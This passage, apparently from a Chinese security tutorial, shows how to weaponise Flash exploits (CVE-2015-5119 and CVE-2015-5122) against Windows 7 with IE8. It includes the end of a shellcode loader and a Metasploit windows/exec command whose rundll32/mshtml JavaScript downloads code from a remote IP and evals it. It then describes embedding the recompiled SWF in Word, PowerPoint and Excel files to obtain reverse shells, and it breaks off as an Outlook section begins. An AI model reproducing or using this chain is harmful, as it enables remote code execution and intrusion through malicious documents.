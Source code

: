 ```
        lea eax,buf
        call eax
    }
    return 0;
}

```

运行后可以弹回shell，证明shellcode生成成功

### 3、结合CVE-2015-5119&CVE-2015-5122

**测试环境**

```
Windows 7 SP1 (64-bit) 
ie8.0.7600.16385 
Adobe Flash Player 18,0,0,194

```

**步骤：**

**1、msf**

```
use windows/exec 
set CMD rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");h.Open(\"GET\",\"http://192.168.174.136/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}
generate -t dword

```

如图![Alt text](http://drops.javaweb.org/uploads/images/4f00b3926c7063c1bff903bbc3215de00aecb49d.jpg)

**2、**修改原工程文件 ,使用Adobe Flash CS6 编译生成新的swf

如图新编译的swf使用浏览器打开，弹回shell

![Alt text](http://drops.javaweb.org/uploads/images/42057b540fb659ea335dff9253c10cf0daef074a.jpg)

同样，将swf嵌入word、ppt、xls，均可弹回shell

此处细节略

0x06 结合Outlook漏洞
================

* * *

**细节可参考:**[http://zone.wooyun.org/content/24657](http://zone.wooyun.org/content/24657)

**测试环境**

```
win7 x86 
outlook2007

```

